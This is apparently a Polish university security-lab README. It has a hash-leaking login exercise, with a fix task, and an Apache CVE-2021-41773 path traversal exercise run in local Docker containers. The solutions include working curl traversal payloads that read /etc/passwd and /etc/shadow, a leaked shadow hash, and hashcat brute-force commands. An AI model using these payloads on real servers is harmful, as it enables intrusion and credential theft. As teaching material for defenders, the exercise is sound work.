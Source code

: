 # __Przygotowanie Środowiska__
- **[Docker Desktop](https://www.docker.com/products/docker-desktop/)**

Docker to platforma do tworzenia, uruchamiania i zarządzania kontenerami oprogramowania. Kontenery to lekkie, samodzielne jednostki oprogramowania, które zawierają wszystko, czego potrzeba do uruchomienia aplikacji, w tym kod, biblioteki, zależności i pliki konfiguracyjne.

- **[John the Ripper](https://www.openwall.com/john/) | [Hashcat](https://hashcat.net/hashcat/)**

<br><br>

# __Hash od Serwera__

Jest to luka utworzona poprzez zwykły ludzki błąd przy projektowaniu systemu logowania. Serwer zamiast sprawdzać prawidłowość hasła u siebie to sprawdza po stronie klienta, przez co atakujący w łatwy sposób może wykorzystać te informacje by złamać hasło.

## **Zaczynamy**:

1. Należy uruchomić serwer oraz client

    **Uruchamianie Klienta:**
    
    Wejdź do katalogu client a następnie wykonaj poniższe komendy:

        ```
        npm ci
        npm start
        ```

    **Uruchamianie Serwera:*
    
    Wejdź do katalogu server a następnie wykonaj poniższe komendy:
    
        ```
        npm ci
        npm start
        ```

2. Teraz uruchom bazę danych w dokerze za pomocą komendy (należy znajdować się w folderze zawierającym plik "docker-compose.yaml"):
    ```
    docker compose up
    ```
## **Zadanie 1**
Zdobądź hash hasła do użytkownika admin, a następnie złam za pomocą dowolnego narzędzia. Zauważ, że przy próbie logowania na konto danego uzytkowika serwer zwraca ci hash jego hasła. Spróbuj go podglądnąć przy pomocy Burpa czy też innych narzędzi. Następnie przy pomocy Johnnego czy Hashcata spróbuj złamać wykradziony hasz. Rozwiązaniem jest hasło w postaci jawnej


## **Zadanie 2**
Korzystając z wiedzy zdobytej podczas prezentacji oraz na innych zajęciach, popraw aplikację, tak aby do porównywania haszy dochodziło w odpowiednim miejscu. Czyli:
1. Porównywanie haszy powinno następować bezpośrednio po pobraniu haszu z bazy danych.
2. Serwer nie może pobranego z bazy danych haszu zwracać w odpowiedzi do klienta.




<br><br>

# __Path Traversal__

Path Traversal to poważna luka w zabezpieczeniach, która może być wykorzystywana przez hakerów do uzyskania nieautoryzowanego dostępu do systemu lub do wykonania nieautoryzowanych poleceń na zdalnym komputerze.

**<u>Podana luka została znaleziona w serwerze Apache 2.4.49 oraz 2.4.50 i nazwana [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)</u>**

**Apache** to darmowe, otwartoźródłowe i wieloplatformowe oprogramowanie serwera WWW wydane na licencji Apache License 2.0. Oprogramowanie jest utrzymywane i rozwijane przez organizację non profit Apache Software Foundation.

Podatność **Path Travesal** występuje jeśli serwer posiada następującą konfiguracją

```console
<Directory />
Require all granted
</Directory>
```

W tym przypadku ustawienie `Require all granted` oznacza, że wszyscy użytkownicy mają mieć dostęp do plików i katalogów.


<br>
<br>

## **Zaczynamy**:

1. Należy uruchomić kontener komendą

```console
docker run -p 8090:80 -p 22:22 gekonisko/path-traversal
```

Kontener wystawia dwa port

- http[80]: http://localhost:8090
- ssh[22]: agh@localhost

<br>

2. Korzystając z narzędzi curl, postam, burp itp. wyślij następujące zapytanie

```console
 curl http://localhost:8090/cgi-bin/.%2e/.%2e/.%2e/.%2e etc/passwd
```

Serwer powinien zwrócić zawartość pliku `/etc/passwd` zawierający również specjalne konto **agh**

```console
…
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
agh:x:1000:1000:,,,:/home/agh:/bin/bash
```

## **Zadanie 3**

Serwer ma wystawiony również protokół SSH, twoim zadaniem jest zalogowanie się na użytkownika agh przez protokół ssh `ssh agh@localhost`. Wykorzystaj plik `etc/shadow` aby wyciągnąć hasło użytkownika agh.


# Rozwiązania
## Zadanie 1
<details>
<summary>Rozwązanie</summary>
<br>

Wysyłamy zapytanie z formularza logowania do użytkownika `admin` za pomocą **Burpa** a nastepnie odczytujemy hash hasła z odpowiedzi uzyskanej od serwera.

Uzyskanie hasło próbujemy złamać przy pomocy hashcata

uruchamiamy hashcata

```
hashcat -m 1800 -a3 password ?u?u?u?u
```

Opcja "-m 1800" wskazuje na rodzaj szyfrowania hasła (rodzaj hashu), a w tym przypadku jest to rodzaj hashu SHA-512(Unix). Opcja "-a 3" oznacza, że hashcat będzie używał metody brute-force (przeprowadzenie próby złamania hasła poprzez wypróbowanie wszystkich możliwych kombinacji).

password to plik w którym przechowujemy hash, który będzie przez nas łamany.

Jeśli chodzi o ciąg znaków "?u?u?u?u", to jest to szablon, który określa, jakie hasło będzie szukane [link](https://hashcat.net/wiki/doku.php?id=mask_attack).
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ

Czyli hashcat dla argunetu "?u?u?u?u" wygeneruje wszytskie 4 znakowe możliwości liter "ABCDEFGHIJKLMNOPQRSTUVWXYZ".

Po złamaniu hasła logujemy się na serwer

</details>


## Zadanie 2
<details>

<summary>Wskazówki</summary>
<br>
W pliku server.js
w endpoincie /login zahaszuj hasło którym użytkownik próbuje się zalogować (skorzystaj z wzoru w kodzie klienta), następnie porównaj je z haszem wyciąganym z bazy. Do klienta w response wyślij status: 200 OK lub 401 Unauthorized w zależności od tego czy dane logowania się zgadzają. Zrób to za pomocą res.sendStatus(code)
</details>

## Zadanie 3
<details>
<summary>Rozwązanie</summary>

```console
 curl http://localhost:8090/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/shadow
```

wynik:

```console
...
agh:$6$bDdeQMyxkE4l8q5s$iLIB.yf/lxCMGCAdx8yHiW9/av0JM.gCo5vy7aLpUG9Q/KWbD6m3BfxXFCKuyzFd1urcoGePMJ.pVKogH.sAw1:19364:0:99999:7:::
```

zapisujemy hash w pliku

```
echo '$6$bDdeQMyxkE4l8q5s$iLIB.yf/lxCMGCAdx8yHiW9/av0JM.gCo5vy7aLpUG9Q/KWbD6m3BfxXFCKuyzFd1urcoGePMJ.pVKogH.sAw1' > password
```

uruchamiamy hashcata

```
hashcat -m 1800 -a3 password ?u?u?u
```

Opcja "-m 1800" wskazuje na rodzaj szyfrowania hasła (rodzaj hashu), a w tym przypadku jest to rodzaj hashu SHA-512(Unix). Opcja "-a 3" oznacza, że hashcat będzie używał metody brute-force (przeprowadzenie próby złamania hasła poprzez wypróbowanie wszystkich możliwych kombinacji).

password to plik w którym przechowujemy hash, który będzie przez nas łamany

Jeśli chodzi o ciąg znaków "?u?u?u", to jest to szablon, który określa, jakie hasło będzie szukane [link](https://hashcat.net/wiki/doku.php?id=mask_attack).
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ

Po złamaniu hasła logujemy sie na serwer

```
ssh agh@localhost
```

</details>

